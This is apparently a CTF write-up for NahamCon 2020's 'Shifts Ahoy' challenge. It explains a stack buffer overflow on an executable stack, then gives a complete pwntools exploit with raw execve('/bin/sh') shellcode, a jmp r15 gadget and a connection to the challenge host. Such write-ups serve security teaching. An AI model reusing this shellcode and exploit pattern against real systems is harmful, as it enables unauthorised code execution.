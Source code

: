 ```
Shifts Ahoy™ v1.0.2a

What would you like to do?

1. Encrypt text.
2. Decrypt text.

> 
```

When we `checksec` the binary, we realise that the NX bit is not set, we have a stack mapped with **RWX** permissions!

![]({{site.baseurl}}/ctf/nahamcon20/Shifts_Ahoy/checksec.jpg)

This is very useful as we can load shellcode into the stack. Upon reversing the `encrypt` function, we can note a trivial buffer overflow of the stack buffer which would allow us to overwrite 7 bytes into the saved RIP on stack, followed by a null byte.

![]({{site.baseurl}}/ctf/nahamcon20/Shifts_Ahoy/encrypt.jpg)

Thus, we are allowed to call 1 arbitrary ROP gadget. Fortunately, I found that the execution state left `r15` pointing to our stack buffer, and there was a `jmp r15` ROP gadget in the binary. We could then trivially jump straight to shellcode in our payload. To take the encryption into consideration, we have to send a "decrypted" payload, considering that,

```
encrypt(decrypt(payload)) == payload
```

{% highlight Python %}
import sys
from pwn import *

if args.REMOTE:
	r = remote("jh2i.com", 50015)
else:
	r = process("./shifts")
pause()

def x(i):
	return i-0xd if i >= 0xd else i+0x100-0xd
def p(s):
	return "".join([chr(x(ord(i))) for i in s[:0x40]])+s[0x40:]

def encrypt(s):
	r.sendlineafter("> ", "1")
	if len(s) >= 0x60-1:
		r.sendafter(": ", p(s[:0x5f]))
	else:
		r.sendlineafter(": ", p(s))

# execve("/bin/sh", 0, 0) shellcode
sc = "\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x54\x5f\xb0\x3b\x0f\x05"
encrypt(sc.ljust(0x58, '\x41')+p64(0x00000000004011cd).decode("Latin-1")) # jmp r15 gadget
r.interactive()
{% endhighlight %}
